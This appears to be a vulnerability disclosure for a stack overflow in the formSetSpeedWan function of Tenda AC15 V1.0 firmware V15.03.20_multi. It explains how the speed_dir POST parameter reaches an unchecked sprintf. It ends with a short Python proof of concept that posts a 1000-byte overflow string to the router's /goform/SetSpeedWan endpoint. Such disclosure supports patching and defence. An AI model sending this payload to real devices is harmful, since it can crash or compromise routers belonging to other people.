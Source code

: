 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formSetSpeedWan` function. The `v7` variable receives the `speed_dir` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `v7` can trigger this security vulnerability.

![image-20240305231334076](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231334076.png)

![image-20240314175819226](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175819226.png)

![image-20240305231353586](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231353586.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSpeedWan"
payload = b"a"*1000

data = {"speed_dir": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314175837384](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175837384.png)
